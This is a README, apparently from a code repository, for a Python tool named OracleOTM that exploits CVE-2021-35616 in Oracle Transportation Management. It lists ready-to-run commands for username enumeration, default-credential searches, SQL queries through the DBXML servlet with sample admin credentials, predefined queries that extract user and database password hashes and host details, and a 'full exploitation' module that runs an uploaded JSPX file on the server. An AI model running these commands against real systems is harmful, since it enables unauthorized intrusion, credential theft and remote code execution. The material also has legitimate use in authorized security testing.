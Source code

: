 # OracleOTM
Python tool for exploiting CVE-2021-35616 


The script works in modules, which I implemented in the following order:
►	Username enumeration
►	Search for default credentials
►	Run an SQL query using DBXML servlet
►	Full exploitation and JSP execution
The syntax of the script is as follows: 
.\OracleOTM.py {module} {host TXT file} {additional parameters}



Username enumeration: .\OracleOTM.py enum {hosts TXT file} -u users.txt
Search for default credentials: .\OracleOTM.py default {hosts TXT file}
Run an SQL query using DBXML servlet:	.\OracleOTM.py query {hosts TXT file} -uq EBS.ADMIN -pq Aa123123 -q "select 1 from dual"
I also prepared some predefined queries that I found useful; you can access them directly, as follows:
•	.\OracleOTM.py query {hosts TXT file} -uq EBS.ADMIN -pq Aa123123 -q os 
•	OS – Extract the server’s OS 
•	Osuser – Extract the OS user running the DB
•	Hostname – DB server host name 
•	Hostip – DB server IP address 
•	Passwords – Extracts the OTM users and their hashed passwords
•	Oraversion – The DB version 
•	Dbusershash – The DB users’ password hashes
•	Dbfileslocation – The location of the DB files in the OS
Full exploitation and JSP execution:	.\OracleOTM.py exploit {hosts TXT file} -lu EBS.ADMIN -lp Aa123123 -pf "C:\Users\user\Desktop\Header_notepad.jspx"

